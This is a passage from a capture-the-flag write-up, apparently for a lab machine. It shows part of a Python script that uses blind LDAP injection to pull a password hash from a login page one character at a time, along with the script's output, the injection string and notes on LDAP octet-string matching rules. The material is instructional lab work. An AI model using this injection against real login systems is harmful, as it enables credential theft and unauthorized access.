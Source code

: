               data = { "inputUsername": u.quote(ldap_injection) }
              req = r.post("http://10.10.10.122/login.php", data=data)

              if x==0 and len(token) % 3 == 2 : token = token[:-1] + str(int(token[-1]) - 1) + "0"
              elif "Cannot login" not in req.text:
                  if len(token) % 3 == 2 : token = token + hex(x)[-1]
                  else: token = token + hex(x+1)[-1]
                  break
        ```
        - Run using `python3`:
          ```
          {
          {c
          {cr
          {cry
          {cryp
          {crypt
          {crypt|
          {crypt}#
          {crypt}$5
          ...
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G-
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.
          ...
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi23
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi245
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi246
          {crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi2460
          ```
        __NOTE(S)__:
        - The `userPassword` attribute is a bit special:
          - According to Microsoft, `userPassword` has an [Object(Replica-Link) syntax](https://docs.microsoft.com/en-us/windows/desktop/adschema/a-unixuserpassword)
          - [Object(Replica-Link)](https://ldapwiki.com/wiki/Replica%20Link) has an OID 2.5.5.10 which is an __Octet String__
          - __Octet Strings__ has a different set of [operations](https://ldap.com/matching-rules/):
            ```
            Octet string matching rules are very simple rules that perform byte-by-byte comparisons of octet string 
            values. All capitalization and spacing is considered significant. 
            ```
          - `ldapuser))(&(uid=ldapuser)(userPassword:2.5.13.18:=`
            ```
            octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule that will perform a bit-by-bit 
            comparison (in big endian ordering) of two octet string values until a difference is found. The first 
            case in which a zero bit is found in one value but a one bit is found in another will cause the value 
            with the zero bit to be considered less than the value with the one bit. 
            ```
          - This means that a simple wildcard (`*`) comparison won't do
        - A __sha512crypt__ hash was extracted -- `{crypt}$6$bkSTg.p5$vJhB6dZrrPY4KyxGY/dubPZ9tnxTkXwI7ENFAZGsItSi5ia4WH3G.0T9XicaZGNOqp9FfdbS5N2hT0exXi2460`
        - This seems to be a __RABBIT HOLE__
      